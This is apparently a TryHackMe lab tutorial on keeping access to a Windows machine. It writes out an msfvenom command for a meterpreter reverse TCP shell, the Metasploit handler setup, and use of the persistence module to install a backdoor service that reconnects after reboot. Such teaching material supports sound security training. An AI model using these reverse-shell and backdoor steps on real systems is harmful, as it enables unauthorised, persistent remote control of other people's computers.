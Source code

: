 # Maintaining Access

There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.\
There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for this room.\
This will require a little more manual setup than the other tasks so it is recommended to have previous knowledge of msfvenom and metasploit.

### Generating a Payload w/ msfvenom

\


#### 1.) `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell 

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

\
2.) Transfer the payload from your attacker machine to the target machine.\
3.) `use exploit/multi/handler` - this will create a listener on the port that you set it on.\
4.) Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`\
5.) After setting your THM IP address as your "LHOST", start the listener with `run`\
6.)  Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that\
7.) Verify that we've got a meterpreter shell, where we will then `background` it to run the persistence module.

### Run the Persistence Module -

1.) `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want\
2.) `set session 1` set the session to the session that we backgrounded in meterpreter (you can use the `sessions` command in metasploit to list the active sessions)\


<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

\
If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to `windows/meterpreter/reverse_tcp` allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.\


<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

\
Here you can see the session die however the second we run the handler again we get a meterpreter shell back thanks to the persistence service.\
There are other ways of maintaining access such as adding users and rootkits however I will leave you to do your own research and labs on those topics.\
